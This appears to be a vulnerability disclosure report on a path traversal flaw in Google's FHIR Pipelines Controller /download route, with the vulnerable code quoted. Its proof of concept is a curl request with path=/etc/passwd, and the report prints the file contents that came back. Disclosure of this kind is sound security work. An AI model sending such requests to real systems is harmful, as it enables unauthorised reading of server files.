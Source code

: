 ```yaml
---
layout: post
title:  "Google: Local File Inclusion in FHIR Pipelines Controller($101)"
date:  2024-05-16 10:31:06 +0800
categories: file-inclusion
---
```


## Name

> Local File Inclusion in FHIR Pipelines Controller

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)


## Description

A local file inclusion is present in the FHIR Pipelines Controller when fetching error log file under the `/download?path=` route.

## Proof of Concept

The [route](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/java/com/google/fhir/analytics/ApiController.java#L115) `/download` is used for fetching error log if [pipeline run failed](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/resources/templates/index.html#L241). However, the `path` parameter is not limited to `dwhRoot` folder causing any file on the filesystem can be read.

The [spring boot rest controller](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/java/com/google/fhir/analytics/ApiController.java#L115) to download the log file:

```
@GetMapping(
      value = "/download",
      produces = {MediaType.TEXT_PLAIN_VALUE})
public ResponseEntity<InputStreamResource> download(@RequestParam(name = "path") String path)
      throws IOException {
    ResourceId resourceId = FileSystems.matchNewResource(path, false);
    ReadableByteChannel channel = FileSystems.open(resourceId);
    InputStream stream = Channels.newInputStream(channel);
    InputStreamResource inputStreamResource = new InputStreamResource(stream);
    MultiValueMap<String, String> headers = new HttpHeaders();
    headers.put("Content-type", Arrays.asList(MediaType.TEXT_PLAIN_VALUE));
    return new ResponseEntity<>(inputStreamResource, headers, HttpStatus.OK);
}
```

The [frontend view](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/resources/templates/index.html#L241) to fetch log file:
```
<div th:unless="${#strings.isEmpty(lastRunDetails.logFilePath)}">
    Last run failed! Please find error logs here
    <button type="submit"
            class="button btn btn-primary" th:onclick="openLogs([[${lastRunDetails.logFilePath}]])">
        View Raw Logs
    </button>
</div>
```
The [javascript function openLogs](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/resources/templates/index.html#L18) to fetch the file:
```
function openLogs(logPath) {
    const url = "/download?path="+logPath;
    // Encode the special characters in the url
    const encodedURL = encodeURI(url);
    window.open(encodedURL, '_blank').focus();
}
```

The [log file path](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/java/com/google/fhir/analytics/PipelineManager.java#L757) `logFilePath` is supposed to `dwhRoot + ERROR_FILE_NAME`:

```
String fileSeparator = DwhFiles.getFileSeparatorForDwhFiles(dwhRoot);
dwhRoot = dwhRoot.endsWith(fileSeparator) ? dwhRoot : dwhRoot + fileSeparator;
ResourceId errorResource = FileSystems.matchNewResource(dwhRoot + ERROR_FILE_NAME, false);
if (dwhFilesManager.doesFileExist(errorResource)) {
    dwhRunDetails.setLogFilePath(dwhRoot + ERROR_FILE_NAME);
}
```

### Steps to reproduce

Following the official [tutorial](https://github.com/google/fhir-data-pipes/wiki/Try-out-the-FHIR-Pipelines-Controller#set-up-the-test-server) to set up the HAPI FHIR server and the FHIR Pipelines Controller service:

0. Clone the fhir-data-pipes repository.

1. Set up a local HAPI FHIR server using docker:

    ```
    docker network create cloudbuild
    docker-compose  -f ./docker/hapi-compose.yml up  --force-recreate -d
    ```
    The base URL for this server is http://localhost:8098/fhir.

2. Open [pipelines/controller/config/application.yml](https://github.com/google/fhir-data-pipes/blob/master/pipelines/controller/config/application.yaml) in a text editor. Change `fhirServerUrl` to be:

    ```
    fhirServerUrl: "http://localhost:8091/fhir"
    ```
3. Open [pipelines/controller/config/hapi-postgres-config.json](https://github.com/google/fhir-data-pipes/blob/master/pipelines/controller/config/hapi-postgres-config.json). Change `databaseHostName` to be:

    ```
    "databaseHostName" : "localhost"
    ```
4. Build the fhir-data-pipes service. In fhir-data-pipes root directory, run following:

    ```
    cd fhir-data-pipes-master
    mvn install -Dlicense.skip=true
    ```
5. After built successfully, `pipelines/controller/target/controller-bundled.jar` is generated. Run the server in `pipelines/controller/` directory:

    ```
    cd pipelines/controller/
    java -jar target/controller-bundled.jar
    ```
    After service up, the FHIR Pipelines Controller will listen on `http://0.0.0.0:8080`. Open the webpage `http://0.0.0.0:8080` in browser, We can see FHIR Pipelines Control Panel. Send following request to `/download` route:

    ```
    curl http://10.15.0.5:8080/download?path=/etc/passwd
    ```

    The output is the contents of the `/etc/passwd` file:

    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    ```

## Impact

Any file on the backend filesystem can be read by an attacker with access to the FHIR Pipelines Controller service.


## Occurrences

[https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/java/com/google/fhir/analytics/ApiController.java#L115](https://github.com/google/fhir-data-pipes/blob/5dd428c427ee8a5b3f784a9f36942c3815690414/pipelines/controller/src/main/java/com/google/fhir/analytics/ApiController.java#L115)
